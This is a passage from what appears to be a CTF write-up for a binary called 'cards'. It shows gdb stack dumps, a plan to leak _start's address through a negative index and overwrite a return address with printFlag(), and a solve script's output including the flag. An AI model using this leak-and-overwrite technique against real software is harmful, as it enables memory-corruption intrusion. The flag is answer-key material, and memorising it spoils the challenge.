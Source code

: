 ```bash
0x7fffffffe240: 0x00007ffff7dd4400
gdb-peda$ x/gx $rsp+0x8-0x8*9
0x7fffffffe238: 0x0000555555554a52
gdb-peda$ x/i 0x0000555555554a52
   0x555555554a52 <readCards+66>:       mov    rdx,QWORD PTR [rsp+0x8]
gdb-peda$ x/gx $rsp+0x8-0x8*12
0x7fffffffe1f0: 0x0000000000000001
gdb-peda$ x/gx $rsp+0x8-0x8*18
0x7fffffffe1c0: 0x00007fffffffe300
gdb-peda$ x/gx $rsp+0x8-0x8*26
0x7fffffffe150: 0x00007fff00000000
gdb-peda$ x/gx $rsp+0x8-0x8*32
0x7fffffffe0f0: 0x0000000000000000
gdb-peda$ x/gx $rsp+0x8-0x8*36
0x7fffffffe0d0: 0x00007fffffffe298
gdb-peda$ x/gx $rsp+0x8-0x8*42
0x7fffffffe070: 0x00007fffffffe1c0
```

As we can see, index `-3` points at `_start`, which calls our `__libc_start_main`:

![](./start.png)

All that is left to do is leak the address for `_start` and thus our base address in a first round, calculate the address for `printFlag()` from that and overwrite `shuffle`'s `RIP` with that address.

[This python script](./solve.py) does the job:

```bash
$ p solve.py 
[+] Started program './cards'
[*] round 1: 1 1 -9223372036854775808 1 140142452812010 
[*] addr_start: 0x7f75751e28ea
[*] addr_printflag: 0x7f75751e2d90
[+] Recieving all data: Done (68B)
[*] Program './cards' stopped with exit code -11
[*] Flag: 9447{ThE_Only_w1nn1Ng_M0ve_1S_t0_stEAl_The_flAg}
```
